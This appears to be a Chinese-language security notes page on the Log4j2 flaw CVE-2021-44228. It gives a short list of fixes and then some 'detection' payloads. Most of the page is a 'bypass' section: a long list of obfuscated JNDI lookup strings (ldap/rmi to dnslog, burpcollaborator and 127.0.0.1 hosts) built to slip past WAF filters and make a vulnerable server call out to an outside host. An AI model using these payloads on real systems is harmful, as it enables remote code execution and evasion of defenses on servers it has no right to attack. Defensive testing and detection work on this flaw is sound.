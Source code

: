 **修复方案**
- 设置系统环境变量 LOG4J_log4j2_formatMsgNoLookups=True
- 升级 Apache Log4j2 所有相关应用到最新版本，地址 https://github.com/apache/logging-log4j2/tags
- [Cybereason/Logout4Shell](https://github.com/Cybereason/Logout4Shell)

**检测 payload**

```
${jndi:ldap://xxx.dnslog.cn/a}
${jndi:rmi://xxx.dnslog.cn/a}
```

- [jas502n/Log4j2-CVE-2021-44228](https://github.com/jas502n/Log4j2-CVE-2021-44228)
- [Puliczek/CVE-2021-44228-PoC-log4j-bypass-words](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words)

**一些 bypass**

```
# RC1 绕过
${jndi:ldap://127.0.0.1:1389/ Badclassname}

# bypass WAF
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://xxx.dnslog.cn/poc}
${${::-j}ndi:rmi://xxx.dnslog.cn/ass}
${${lower:jndi}:${lower:rmi}://xxx.dnslog.cn/poc}
${${lower:${lower:jndi}}:${lower:rmi}://xxx.dnslog.cn/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://xxx.dnslog.cn/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxx.dnslog.cn/poc}
${${env:foo:-jndi}:ldap://xxx.dnslog.cn/a}

${${lower:jnd}${lower:${upper:ı}}:ldap://...}

${jndi:${lower:l}${lower:d}a${lower:p}://example.com/

${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a}

${j${lower:n}d${lower:i}${lower::}${lower:l}d${lower:a}p${lower::}${lower:/}/${lower:1}${lower:2}${lower:7}.${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}0${lower:9}${lower:9}/${lower:o}${lower:b}j}

${${::-j}ndi:rmi://127.0.0.1:1389/ass}

${${lower:jndi}:${lower:rmi}://q.w.e/poc}

${${lower:${lower:jndi}}:${lower:rmi}://a.s.d/poc}

${${upper:j}${lower:n}${lower:d}${lower:i}${lower::}${lower:l}${lower:d}${lower:a}${lower:p}${lower::}${lower:/}${lower:/}${lower:1}${lower:2}${lower:7}${lower:.}${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}${lower:0}${lower:9}${lower:9}${lower:/}${lower:o}${lower:b}${lower:j}}

${${nuDV:CW:yqL:dWTUHX:-j}n${obpOW:C:-d}${ll:-i}:${GI:-l}d${YRYWp:yjkg:wrsb:RajYR:-a}p://${RHe:-1}2${Qmox:dC:MB:-7}${ucP:yQH:xYtT:WCVX:-.}0.${WQRvpR:ligza:J:DSBUAv:-0}.${v:-1}:${p:KJ:-1}${Ek:gyx:klkQMP:-0}${UqY:cE:LPJtt:L:ntC:-9}${NR:LXqcg:-9}/o${fzg:rsHKT:-b}j}

${${uPBeLd:JghU:kyH:C:TURit:-j}${odX:t:STGD:UaqOvq:wANmU:-n}${mgSejH:tpr:zWlb:-d}${ohw:Yyz:OuptUo:gTKe:BFxGG:-i}${fGX:L:KhSyJ:-:}${E:o:wsyhug:LGVMcx:-l}${Prz:-d}${d:PeH:OmFo:GId:-a}${NLsTHo:-p}${uwF:eszIV:QSvP:-:}${JF:l:U:-/}${AyEC:rOLocm:-/}${jkJFS:r:xYzF:Frpi:he:-1}${PWtKH:w:uMiHM:vxI:-2}${a:-7}${sKiDNh:ilypjq:zemKm:-.}${QYpbY:P:dkXtCk:-0}${Iwv:TmFtBR:f:PJ:-.}${Q:-0}${LX:fMVyGy:-.}${lS:Mged:X:th:Yarx:-1}${xxOTJ:-:}${JIUlWM:-1}${Mt:Wxhdp:Rr:LuAa:QLUpW:-0}${sa:kTPw:UnP:-9}${HuDQED:-9}${modEYg:UeKXl:YJAt:pAl:u:-/}${BPJYbu:miTDQJ:-o}${VLeIR:VMYlY:f:Gaso:cVApg:-b}${sywJIr:RbbDTB:JXYr:ePKz:-j}}

${j${lower:n}d${lower:i}${lower::}${lower:l}d${lower:a}p${lower::}${lower:/}/${lower:1}${lower:2}${lower:7}.${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}0${lower:9}${lower:9}/${lower:o}${lower:b}j}
```